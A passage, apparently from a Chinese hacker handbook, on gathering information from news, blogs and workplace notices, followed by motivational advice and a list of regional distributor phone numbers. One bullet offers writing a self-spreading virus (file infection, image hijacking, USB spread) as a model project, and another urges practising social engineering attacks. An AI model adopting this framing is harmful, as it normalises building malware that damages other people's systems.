报刊我主要订阅南方报业旗下的《南方周末》与《南方都市报》，这是国内敢于正面报道真相的报刊，一群有远见的记者们善于捕捉国内隐性事件，涉及到政治、商业范围。若你有很多想不通的事情，强烈建议你应该读它，它所提供的信息情报都很有价值。

同时推荐国际性杂志《经济学人》，也是关注政治和商业方面的信息，很不错，我一直通过网络在阅读。其他国际周刊都将有助于你及时获取全球重要信息。

他们总是无私地分享对国家的政策看法，以及对事件进行真实的还原。尽管可以不去信任电视，但你可以在他们的信息上建立更完善的认识。例如，我就订阅有草莓、连岳、闾丘露薇、河蟹上岸等的博客，他们多以幽默的口吻评论国家事件。

我们不仅可以通过报刊、杂志与博客进行信息控制，其他形式的信息控制途径也有很多。例如，我的手机会自动接收天气预报短信；电脑系统的桌面采用了Google插件，以保证随时获取资讯；进入未知的城市，我会购买当地的报纸；进入某个机构，我先阅读他们墙上贴着的规章制度；或者询问员工是否有对外资料……

看上去，处理这么庞大的信息对于经验不足的你是有些困难；但我并不是要求你立刻全部进行处理，只是让你在感觉有必要时，选择性地去进行处理。

### 聪明的人做聪明的事，并实践

生命学家无法告诉人们生命可延续的明确时间，以至于我们从不对生命的时间重视，每天的生活也无法感觉人体的结构会随细胞的改变而改变，脑海中的记忆仅是对人生与学习经验的累积。问题是：人能控制一切，但能否控制自己的命运？若你的人生没有什么追求、梦想以及欲望，这部分所谈的将不适合你。

“聪明的人做聪明的事”不是贬义句式，因为没有人一出生就是聪明人，而是经验的累积使得他们更清楚如何做，并做好它。以心理学来看，这句话更适合理性思考的人。若你现在仍以感性为生活导向，任随感觉去做任何事，很抱歉，销售排行榜的成功学书籍都是劝告不应该这样做。同样，我也不推荐你对事物总持消极状态；试问，技术高超的黑客每天无所事事吗？不是的！

- 如何应对一件事？首先想想它是否符合你的价值观。例如，你对技术充满向往，你得关注技术的资料与人员。
- 如何做好一件事？当作有目标有计划地完成。例如，编写一个传播型的病毒，可将可执行文件感染、映像劫持、U盘传播等功能分成小目标，并在不同的时间段完成。
- 如何创造一件事？将你所做的事进行价值放大化，获取更多的机会。例如，你的文章有没有打算让更多的人认识呢？编写的优化软件有没有计划参奖呢？你的收藏品有没有计划放到淘宝出售呢？
- 如何保持对一件事的激情？计划，行动！当你看完本节什么也没做，那你可能感觉不到社会工程学攻击的威力，因此，想成为技术高超的黑客，实践很重要。

最后，啰嗦了这么多，我所分享的经验当然不限于此，经验像维基百科一样永远也无法写完，希望读者能运用到实际操作中。别忘记本书的最终目的，是一本“关于人与机器的安全”的书籍，虽然它所带来的破坏与重建是无法避免的，但能使读者更加认识自己。

## 非安全·黑客手册全国代理商电话

| 地区 | 电话 |
|---|---|
| 哈尔滨 | 0451-88342321 |
| 海口 | 0898-66217820 |
| 鞍山 | 0412-2218341 |
| 包头 | 0472-4138751 |
| 保定 | 0312-2038408 |
| 北京 | 010-65072885 |
| 北京 | 010-65850057 |
| 沧州 | 0317-3015380 |
| 长春 | 0431-82700526 |
| 常德/衡阳 | 0736-7389148 |
| 常州 | 0519-88105882 |
| 成都 | 028-89935872 |
| 大同 | 0352-2021603 |
| 大连 | 0411-84600173 |
| 阜阳 | 0558-2271183，2233944 |
| 贵阳 | 0851-5984895，6819938 |
| 桂林 | 0773-2859586 |
| 武汉 | 027-85493562 |
| 杭州 | 0571-88256366 |
| 合肥 | 0551-2611465 |
| 衡水 | 0318-7902322 |
| 济南 | 0531-82903395 |
| 淮南 | 0554-6314707 |
| 昆明 | 0871-4168505 |
| 兰州 | 0931-8514919 |
| 柳州 | 0772-3111816 |
| 南昌 | 0791-8592332 |
| 南京 | 025-83328998 |
| 南宁 | 0771-2615676 |
| 南通 | 0513-83501751 |
| 宁波 | 0574-87660206 |
| 齐齐哈尔 | 0452-2683430 |
| 秦皇岛 | 0335-3691263 |
| 青岛 | 0532-83848881 |
| 深圳 | 0775-82264081 |
| 沈阳 | 024-23842760 |
| 石家庄 | 0311-83029157 |
| 太原 | 0351-7041968 |
| 唐山 | 0315-2259572 |
| 天津 | 022-27697711 |
| 乌鲁木齐 | 0991-5589830 |
| 无锡 | 0510-82722773 |
| 西安 | 029-82100804 |
| 邢台 | 0319-3090234 |
| 宜昌 | 0717-6443827 |
| 张家口 | 0313-2068200 |
| 通化 | 0435-5086200 |
| 威海 | 0631-5202057 |
| 淄博 | 0533-2150683 |
| 上海 | 021-63760720 |
| 吉林 | 0432-6959591，6959592 |
| 郑州 | 0371-67647276 |
| 烟台 | 0535-6260748 |
| 徐州 | 0516-83777678 |
| 绵阳 | 0816-2333291 |
| 苏州 | 0512-65188163 |
| 长沙 | 0731-6562796 |
| 重庆 | 023-67051607 |
| 重庆 | 023-67051833 |
| 江庄 | 0317-2254900 |
| 银川 | 0951-6024121，6024322 |
| 广州 | 020-34296413 |
| 邯郸 | 0310-3090822，7672216 |
| 周口 | 0394-6093289 |
| 福州 | 13960788097 |